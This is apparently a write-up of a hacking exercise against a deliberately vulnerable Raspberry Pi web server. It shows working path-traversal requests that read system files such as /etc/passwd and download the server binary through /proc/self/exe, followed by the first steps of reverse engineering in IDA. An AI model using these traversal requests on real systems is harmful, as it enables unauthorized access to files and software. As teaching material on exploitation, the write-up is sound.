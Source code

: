 ## Web Application attack ##

Just like for a regular pentest, all we know here is that the port 80/tcp is open,
and accessing to `/` redirect us to a page to turn on and off a LED (supposed
connected to the GPIO on our RaspberryPi). Not exactly fancy...
By sending a simple [`ncat`](https://nmap.org/ncat) request, things get suddenly more interesting:
![toadd](https://i.imgur.com/Zw0BH8c.png)

*__Hint__:* Other tools were tested and failed. The reason for that is that they
parse and resolve the URL *before* sending it. So if I try to fuzz
`http://foo/../../../another/path`, the tools will automatically solve it as
`http://foo/another/path` even before the request leaves my computer. This is
(IMHO) a bad feature for pentesters/bug hunters as it may lead to missing out some easy
vulns (just like here!). So again, only one rule apply: trust only your own
tools!

Back to business: we can now read files remotely like `/etc/passwd` but we can
also retrieve the binary using `/proc/self/exe`

{% highlight bash %}
$ python -c 'import requests;print requests.get("http://rpi2-1/../../../../proc/self/cmdline").text'
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 0

/home/pi/armpwn/bin/websrv
$ python -c 'import requests;print
requests.get("http://rpi2-1/../../../../proc/self/exe").text' > websrv
$ file websrv
websrv: ELF 32-bit LSB shared object, ARM, EABI5 version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-armhf.so.3, for GNU/Linux 2.6.26, BuildID[sha1]=5b3aa53d30579a7f7f0b9cb1eedfb06b1884e112, stripped
{% endhighlight %}

Much better, we have the binary to analyze! This part was pretty
straight-forward, let's move on.

Next, the binary analysis.


## Reversing the binary ##

We can use [`IDA`](https://www.hex-rays.com/products/ida/support/download.shtml) to start with the static analysis. After a quick examination,
the overall structure reveals itself quite clearly.
The behaviour for the main process can be described with this pseudo-code:

{% highlight c %}
create_bind_socket();
bind();
listen();
while(1){
    fd = accept();
    if( fork() > 0){          // child process
        setup_alarm();
        treat_requests(fd);
        close_socket(fd);
        exit(0);
    }
    close_socket(fd);
}
{% endhighlight %}
